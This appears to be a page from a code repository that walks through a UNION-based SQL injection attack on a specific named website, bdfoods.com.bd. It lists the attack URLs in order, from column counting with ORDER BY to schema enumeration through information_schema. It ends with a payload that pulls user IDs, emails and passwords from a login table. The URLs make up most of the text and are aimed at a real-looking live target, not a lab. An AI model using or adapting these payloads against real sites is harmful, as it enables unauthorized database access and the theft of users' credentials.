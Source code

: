 
---
The provided URLs are examples of potential SQL injection attacks aimed at extracting information from the database of the website `http://bdfoods.com.bd`. SQL injection is a technique where attackers insert malicious SQL queries into input fields, allowing them to execute arbitrary SQL commands on the database.

### 1. Basic Parameter Injection

**URL:**
```
http://bdfoods.com.bd/awards.php?id=6
```
**Description:**
This is a standard URL with an `id` parameter set to 6. It is used as the starting point to test if the parameter is vulnerable to SQL injection.

### 2. Testing for Order By Clause Injection

**URLs:**
```
http://bdfoods.com.bd/awards.php?id=6%20orderby1
http://bdfoods.com.bd/awards.php?id=6%20order%20by%202
http://bdfoods.com.bd/awards.php?id=6%20order%20by%203
http://bdfoods.com.bd/awards.php?id=6%20order%20by%204
```
**Description:**
These URLs attempt to manipulate the `id` parameter by adding an `ORDER BY` clause followed by a number. This technique is used to determine the number of columns in the resulting dataset. If the specified column number exceeds the actual number of columns, an error will occur, indicating how many columns are present. For example:
- `order by 1`: Orders by the first column.
- `order by 2`: Orders by the second column, and so on.

### 3. Testing for UNION-Based SQL Injection

**URLs:**
```
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,3,4
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,version(),4
```
**Description:**
These URLs use the `UNION` SQL operator to combine the results of two queries into a single result set. This method can be used to extract data from the database.
- `union select 1,2,3,4`: This query tests if the number of columns found earlier matches, and if the site is vulnerable to UNION-based SQL injection.
- `union select 1,2,version(),4`: Extracts the database version by replacing one of the column positions with the `version()` function.

### 4. Extracting Table Names

**URL:**
```
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,table_name,4%20from%20information_schema.tables
```
**Description:**
This URL retrieves the names of tables in the database by querying the `information_schema.tables` table, which stores metadata about the database schema. It uses `union select` to display the results in the webpage.

### 5. Extracting Column Names from a Specific Table

**URLs:**
```
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,column_name,4%20from%20information_schema.columns%20where%20table_name=%27u_log%27
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,column_name,4%20from%20information_schema.columns
```
**Description:**
These URLs list the column names from a specific table (`u_log`) or from all tables in the database. The `information_schema.columns` table contains metadata about all columns in the database.
- `where table_name='u_log'`: Filters the results to show columns from the `u_log` table.

### 6. Extracting Specific Data from a Table

**URL:**
```
http://bdfoods.com.bd/awards.php?id=6%20union%20select%201,2,group_concat(user_id,0x0a,u_em,0x0a,log__pass),4%20from%20u_log
```
**Description:**
This URL uses the `group_concat()` function to concatenate multiple rows into a single string, separating each entry with a newline (`0x0a`). It attempts to extract data such as `user_id`, `u_em` (presumably user email), and `log__pass` (password) from the `u_log` table.

---

